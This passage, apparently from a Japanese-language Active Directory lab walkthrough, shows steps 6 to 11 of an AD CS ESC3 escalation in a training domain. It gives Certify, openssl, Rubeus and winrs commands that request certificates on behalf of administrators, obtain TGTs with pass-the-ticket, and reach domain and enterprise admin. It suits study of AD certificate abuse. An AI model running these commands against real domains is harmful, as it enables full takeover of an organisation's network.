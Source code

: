 ```
[*] Current user context    : dcorp\studentx 
 
[*] Template                : SmartCardEnrollment-Users 
[*] On Behalf Of            : dcorp\administrator 
[snip] 
```
---
6. もう一度証明書テキストをesc3-DA.pemに保存しpemをpfxに変換する。
```
C:\AD\Tools>C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3-DA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3-DA.pfx 
[snip] 
```
---
7. 上記で作成したesc3-DAをルベウスと使用し、DAのTGTをリクエストする。 
```
C:\AD\Tools>echo %Pwn% 
asktgt 
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /certificate:esc3-DA.pfx /password:SecretPass@123 /ptt 
[snip] 
[*] Action: Ask TGT 
 
[*] Using PKINIT with etype rc4_hmac and subject: CN=studentx, CN=Users, 
DC=dollarcorp, DC=moneycorp, DC=local 
[*] Building AS-REQ (w/ PKINIT preauth) for: 
'dollarcorp.moneycorp.local\administrator' 
[+] TGT request successful! 
[snip] 
```
---
8. 今、私たちが実際にDA権を持っているかどうかを確認する： 
```
C:\AD\Tools>winrs -r:dcorp-dc cmd /c set username USERNAME=administrator 
```
---
9. エンタープライズ管理者に、エスカレーションするにはSmartCardEnrollment UserテンプレートとRubeusに変更を加える。
```
C:\AD\Tools>C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:mcorp\administrator /enrollcert:C:\AD\Tools\esc3-agent.pfx /enrollcertpw:SecretPass@123 
[snip] 
```
---
10. opensslを使ってpemをesc3-EA.pfxに変換し、そのpfxをRubeusで使う
```
C:\AD\Tools>echo %Pwn% 
asktgt 
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:moneycorp.local\administrator /certificate:C:\AD\Tools\esc3-EA.pfx /dc:mcorp-dc.moneycorp.local /password:SecretPass@123 /ptt 

[snip] 
```
---
11. mcorp-DCにアクセス。
```
C:\AD\Tools>winrs -r:mcorp-dc cmd /c set username USERNAME=administrator  
```
---
